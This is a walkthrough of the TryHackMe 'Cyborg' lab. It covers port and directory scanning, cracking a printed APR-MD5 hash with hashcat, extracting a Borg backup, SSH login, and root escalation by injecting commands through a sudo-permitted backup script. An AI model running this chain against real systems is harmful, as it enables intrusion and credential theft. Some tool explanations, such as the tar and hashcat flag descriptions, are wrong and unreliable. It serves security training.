 # TRYHACKME – Cyborg (CTF)

![Cyborg.png](Cyborg.png)

Use nmap tool to scan target ports

**`nmap 10.10.23.140`**

![nmap-scan#1.png](nmap-scan1.png)

Port: Services:

22     ssh (Secure Shell)

80     http (Hypertext Transfer Protocol)

Use gobuster tool to brute-force directories on web servers

`gobuster dir -u http://10.10.23.140 -w /usr/share/seclists/Discovery/Web-Content/common.txt`

> dir –> to search for directories

> -u –> specify the URL

> -w –> path to the worldlist

![gobuster-scan#1.png](gobuster-scan1.png)

Directories found:

/admin

/etc

![etc-dir#1.png](etc-dir1.png)

![etc-squid-dir#1.png](etc-squid-dir1.png)

![md5-hash#1.png](md5-hash1.png)

**Identify the hash type**

**`hash-identifier`** 

**> hash** –> **$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.**

![hash-identifier#1.png](hash-identifier1.png)

**hash type: md5(APR)**

Crack hash using hashcat tool

**`hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`**

> -m –> specifies the hash type (1600 – md5 APR)

> -a –> specifies the attack mode (0 – brute force)

![hashcat#1.png](hashcat1.png)

![admin-index-page-file#1.png](admin-index-page-file1.png)

Unzip the file

**`tar –xf archive.tar`**

> -xf –> used to extract .rar files

![list-zip-file#1.png](list-zip-file1.png)

![unzip-tar-file#1.png](unzip-tar-file1.png)

**`cat README`**

Give as a hint to search for BorgBackup tool

Download borgbackup tool

**`apt install borgbackup –y`**

Extract files with borg

**`sudo borg extract Downloads/home/field/dev/final_archive::music_archive`**

Use the previous cracked  password

**`cat note.txt`**

![cat-file#1.png](cat-file1.png)

Connect to the target machine via ssh

**`ssh alex@10.10.159.75`**

![ssh#1.png](ssh1.png)

**`cat user.txt`**

![cat-file#2.png](cat-file2.png)

List the user privileges to see what we can do with this user

**`sudo -l`**

![list-user-privileges#1.png](list-user-privileges1.png)

alex can run this script as “sudo”

`cd /etc/mp3backups`

![mv-dir-mp3backups#1.png](mv-dir-mp3backups1.png)

**`cat backup.sh`**

![cat-file#3.png](cat-file3.png)

Optional arguments can be passed through this instruction (OPTARG) 

List directories on root

**`sudo ./backup.sh -c “ls /root”`**

> -c –> pass a command

![run-file-arguments#1.png](run-file-arguments1.png)

**`sudo ./backup.sh -c “cat /root/root.txt”`**

![run-file-aguments#2.png](run-file-aguments2.png)